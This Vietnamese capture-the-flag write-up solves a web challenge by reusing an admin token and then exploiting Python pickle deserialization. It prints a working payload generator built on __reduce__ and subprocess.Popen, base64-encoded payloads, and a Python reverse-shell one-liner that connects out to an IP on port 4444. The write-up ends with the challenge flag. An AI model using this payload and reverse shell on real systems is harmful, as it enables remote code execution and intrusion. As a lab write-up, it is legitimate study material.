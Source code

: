 # Write up Padding Pickle - GDUCTF
Đầu tiên khi mở challange cho ta một form login, ta thử nhập 1 giá trị bất kỳ thì không đăng nhập được, thử login với username và password đều là ``admin`` thì đăng nhập thành công và redirect ta qua trang ``dashboard``:

![this is image](./img/dashboard.png)

Trang web bảo ta không phải là admin, và cho ta 1 đường dẩn để view log, khi nhấn vào đường dẩn:

![this is image](./img/log.png)

Trang log cho ta thông tin về ``username`` và ``token``, và để ý thấy tại trang ``dashboard`` thì url có nhận 1 param là ``token``, ta thử thay đổi ``token`` đó bằng ``token`` của admin (url encode token trước khi chèn):

![this is image](./img/loginbytoken.png)

Nhìn vào trang web admin có gợi ý ta về ``pickle`` và phần placeholder của input là mã base64 của một object được pickle, ta suy đoán web này sẽ có ``Pickle-Deserialization vulnerability``

> Pickle là một module cho phép serialize và deserialize object trong Python. 

Ta dùng đoạn code sau để tạo payload:
```python
import subprocess
import base64
import pickle
 
class Exploit(object):
    def __reduce__(self):
        cmd = "whoami"
        return  subprocess.Popen,(cmd,)
 
print(base64.b64encode(pickle.dumps(Exploit())))
```
***Giải thích**: ta dùng hàm ``__reduce___`` để RCE. Vì
1. Hàm ``__reduce__()`` không nhận tham số và sẽ được gọi khi object được ``pickle``
2. Hàm này sẽ return về string hoặc tuple (khuyến khích là tuple). Khi một tuple được return thì tuple đó phải có từ 2-6 items. Trong đó item đầu sẽ là một ``callable object``. Và ``callable object`` này sẽ được gọi để khởi tạo phiên bản ban đầu của object. Item thứ 2 sẽ là một tuple con chứa các tham số của ``callable object`` ở item 1

Ở payload trên thì ``callable object`` là ``subprocess.Popen`` và ``whoami`` là param của ``calable object``
> class ``subprocess.Popen`` cho phép tạo ra một luồng mới trong ứng dụng và thực hiện chương trình con tại luồng mới đó và ``subprocess.Popen`` sẽ nhận tham số là đầu một tuple, mỗi item của tuple là một phần của câu command bất kỳ và cuối cùng sẽ thực hiện câu command đó

Và cuối cùng dùng ``dumps`` để serialize và hàm ``b64encode`` để encode

Output:
``bash
b'gASVJQAAAAAAAACMCnN1YnByb2Nlc3OUjAVQb3BlbpSTlIwGd2hvYW1plIWUUpQu'
``

Ta nhập vào input được kết quả:

![this is image](./img/uploadpickle.png)

Ta thấy web chỉ deserialize payload và hiện ra dòng "I recieved, but can you RCE me?", nên ta không thể cho in output một cách bình thường mà phải dùng reverse shell

Tuy nhiên ta thử dùng ``nc`` và ``bash`` đều không được nên ta thử tới reverse shell bằng ``python``

Ta thay biến ``cmd`` của payload thành:
```python
cmd = "python3","-c",'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("172.28.45.159",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```
Output: 
```bash
b'gASVBgEAAAAAAACMCnN1YnByb2Nlc3OUjAVQb3BlbpSTlIwHcHl0aG9uM5SMAi1jlIzWaW1wb3J0IHNvY2tldCxzdWJwcm9jZXNzLG9zO3M9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCxzb2NrZXQuU09DS19TVFJFQU0pO3MuY29ubmVjdCgoIjE3Mi4yOC40NS4xNTkiLDQ0NDQpKTtvcy5kdXAyKHMuZmlsZW5vKCksMCk7IG9zLmR1cDIocy5maWxlbm8oKSwxKTtvcy5kdXAyKHMuZmlsZW5vKCksMik7aW1wb3J0IHB0eTsgcHR5LnNwYXduKCIvYmluL2Jhc2giKZSHlIWUUpQu'
```
Ta dùng ``netcat`` listen trên port 4444 và sau đó inject payload:

![this is image](./img/rs.png)

Ta đã thực reverse shell thành công và tiến hành đọc flag:

![this is image](./img/shell.png)

>**FLAG:** KCSC{P4dd1ng_0racl3_4tt4ck_4nd_p1ckl3_uns3r1al1ze}



